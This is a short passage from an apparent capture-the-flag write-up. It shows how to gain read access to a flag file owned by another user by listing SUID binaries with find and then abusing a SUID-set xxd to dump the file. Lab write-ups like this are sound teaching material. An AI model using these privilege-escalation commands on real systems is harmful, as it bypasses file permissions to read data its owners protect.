 # login in with `password` as password

then we will find that `flag.txt` is own by user `noaccess` and we donot have read
permission.

# privilege escalation

so we would find someway that make us privilege escalation.

```
find / -type f -perm -u=s 2>/dev/null
```

we can find that `/usr/bin/xxd` have been set `suid` which we needed.

```
xxd -ps flag.txt | xxd -r -p
```
